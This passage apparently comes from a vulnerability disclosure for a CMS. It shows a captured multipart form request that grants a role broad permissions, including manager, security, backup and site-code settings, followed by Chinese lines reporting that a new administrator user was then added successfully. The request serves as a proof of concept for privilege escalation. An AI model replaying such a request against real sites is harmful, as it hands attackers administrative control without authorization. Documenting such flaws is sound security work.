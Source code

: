 ```plain


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="open"

1
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit1"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit2"

["content&content","items&items","banner&banner","consult&consult","feedback&feedback","search&search","seo&seo","seo&violation","seo&rewrite","anchor&anchor","link&link","plugin&plugin","plugin&market","template&template","template&market","store&store","manager&manager","safe&safe","safe&backup","site&site","site&email","site&sms","site&code","menu&menu","language&language","site&state"]
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit3"

["content&content","items&items","banner&banner","consult&consult","feedback&feedback","search&search","plugin&plugin","safe&backup","site&site","site&code","menu&menu","language&language","site&state"]
------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="permit4"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="image"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="alias"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="email"


------WebKitFormBoundaryB067fgIWBKtHI4Gy
Content-Disposition: form-data; name="phone"


------WebKitFormBoundaryB067fgIWBKtHI4Gy--
```

然后去添加新用户。  
成功添加管理员用户
